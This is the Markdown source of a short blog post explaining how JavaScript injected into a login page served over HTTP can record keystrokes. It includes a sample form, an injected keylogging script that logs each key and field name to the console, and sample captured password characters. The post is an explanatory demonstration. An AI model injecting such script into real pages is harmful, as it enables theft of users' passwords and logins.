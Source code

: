 ```yaml
---
layout: post
title:  "key logging"
date:   2017-06-07 21:21:37
categories: web-programming
excerpt: "injecting javascript to capture a users keystrokes"
tags:
  - javascript
  - hacking
---
```


I was watching a video today about injecting malicious JavaScript into webpages that are served over HTTP (not HTTPS).  Even if the `post` from the login form is HTTPS, it is still possible to steal the user's data if the script can be injected into a page loaded over HTTP.

Take this login form for example:

{% highlight html %}
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title></title>
  </head>
  <body>
    <div style="margin: auto; width: 250px; padding-top: 250px;">
      <form onsubmit="event.preventDefault();">
        User name:<br>
        <input type="text" name="username">
        <br>
        Password:<br>
        <input type="password" name="password">
        <br><br>
        <input id="myCheckbox" type="submit" value="Submit">
      </form>
    </div>
  </body>
</html>
{% endhighlight %}

Using Fiddler, it is possible to intercept the HTTP request, and inject a script by replacing the closing `<body>` tag with this:

{% highlight html %}
    <script>
      var sessionID = Math.random() * 1000;

      document.onkeypress = function(event) {
        var targetedElement = event.srcElement.name ? event.srcElement.name : event.srcElement.nodeName;

        console.log({
          key: event.key,
          htmlElement: targetedElement,
          sessionID: sessionID
        });
      };
    </script>
  </body>  
{% endhighlight %}

Here we are `console.log`ing the output, and in reality a much more powerful tool than Fiddler would be needed to make this intercept (such as some malware at a router level).  But imagine this data below being sent to a remote server.  It would be easy to reconstruct your session and determine what you typed into each text entry field and steal your login info.

script output:
{% highlight javascript %}
{key: "c", htmlElement: "password", sessionID: 799.5342152323906}
{key: "a", htmlElement: "password", sessionID: 799.5342152323906}
{key: "t", htmlElement: "password", sessionID: 799.5342152323906}
{% endhighlight %}

here's the full html

{% highlight html %}
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title></title>
  </head>
  <body>
    <div style="margin: auto; width: 250px; padding-top: 250px;">
      <form onsubmit="event.preventDefault();">
        User name:<br>
        <input type="text" name="username">
        <br>
        Password:<br>
        <input type="password" name="password">
        <br><br>
        <input id="myCheckbox" type="submit" value="Submit">
      </form>
    </div>
    <script>
      var sessionID = Math.random() * 1000;

      document.onkeypress = function(event) {
        var targetedElement = event.srcElement.name ? event.srcElement.name : event.srcElement.nodeName;

        console.log({
          key: event.key,
          htmlElement: targetedElement,
          sessionID: sessionID
        });
      };
    </script>
  </body>
</html>
{% endhighlight %}

